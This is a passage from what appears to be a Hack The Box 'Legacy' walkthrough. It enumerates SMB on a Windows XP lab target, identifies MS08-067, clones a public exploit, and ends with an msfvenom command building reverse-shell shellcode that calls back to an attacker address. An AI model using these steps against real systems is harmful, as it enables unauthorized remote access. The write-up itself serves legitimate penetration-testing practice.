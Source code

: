 Might be vulnerable for a known SMB vulnerability. Let's first enumerat some more information about our target.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Legacy]
└─$ nmblookup -A $ip            
Looking up status of 10.129.135.14
        LEGACY          <00> -         B <ACTIVE> 
        HTB             <00> - <GROUP> B <ACTIVE> 
        LEGACY          <20> -         B <ACTIVE> 
        HTB             <1e> - <GROUP> B <ACTIVE> 
        HTB             <1d> -         B <ACTIVE> 
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 

        MAC Address = 00-50-56-96-17-2E
```
We did not discover any juicy information yet. We should continue enumerating.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Legacy]
└─$ nbtscan $ip  
Doing NBT name scan for addresses from 10.129.135.14

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
10.129.135.14    LEGACY           <server>  <unknown>        00:50:56:96:17:2e

```
We can try to use smbmap to identify shares and try to identify the version of the target.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Legacy/ms08_067]
└─$ smbmap -H $ip      
[+] IP: 10.129.253.57:445       Name: 10.129.253.57 

┌──(emvee㉿kali)-[~/Documents/HTB/Legacy/ms08_067]
└─$ smbmap -H $ip -v
[+] 10.129.253.57:445 is running Windows 5.1 (name:LEGACY) (domain:LEGACY)

```
When we search on Google with the following terms: [Windows 5.1 XP SMB exploit](https://www.google.com/search?q=Windows+5.1+XP+SMB+exploit), we can see that knwon MS08-067 vulnerability is found. Our next step is to search for [ms08-067 github exploit](https://www.google.com/search?q=ms08-067+github+exploit), we find a github with an exploit for it.
```
https://github.com/andyacer/ms08_067
```
We should clone the exploit to our project directory in Kali.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Legacy]
└─$ git clone https://github.com/andyacer/ms08_067/
Cloning into 'ms08_067'...
remote: Enumerating objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37
Receiving objects: 100% (37/37), 13.01 KiB | 1.45 MiB/s, done.
Resolving deltas: 100% (11/11), done.

```
Based on the information on the Github page we know what we have to generate some shellcode with msfvenom. Lucky us, it is all well documented.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Legacy/impacket]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.114 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
```